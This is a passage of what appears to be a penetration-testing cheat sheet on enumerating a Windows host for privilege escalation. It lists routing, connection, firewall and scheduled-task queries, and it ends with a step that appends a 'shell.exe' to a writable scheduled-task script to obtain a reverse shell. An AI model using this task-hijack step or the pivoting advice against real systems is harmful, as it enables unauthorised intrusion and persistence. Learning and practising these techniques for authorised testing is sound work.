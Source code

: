 ### Networking routing tables

```powershell
C:\Cas> route print
```

### Active network connections

```powershell
C:\Cas> netstat -ano
```

## Firewall Status and Rules

??? info "info"
For example, if a network service is not remotely accessible because it is blocked by the firewall, it is generally accessible locally via the loopback interface. If we can interact with these services locally, we may be able to exploit them to escalate our privileges on the local system.
In addition, we can gather information about inbound and outbound port filtering during this phase to facilitate port forwarding and tunneling when it's time to pivot to an internal network.

### Firewall profile

```powershell
C:\Cas> netsh advfirewall show currentprofile
```

### Firewall rules

```powershell
C:\Cas> netsh advfirewall firewall show rule name=all
```

## Scheduled Tasks

List all scheduled tasks

```powershell
C:\Cas> schtasks /query /fo LIST /v

C:\Cas> Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State
```

??? info "info"
Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

    Let’s append shell.exe to this script to get back reverse shell on machine

```powershell
C:\Cas> echo C:\Cas\shell.exe >> C:\<path-scheduled-tasks>
```

## Installed Applications and Patch Levels
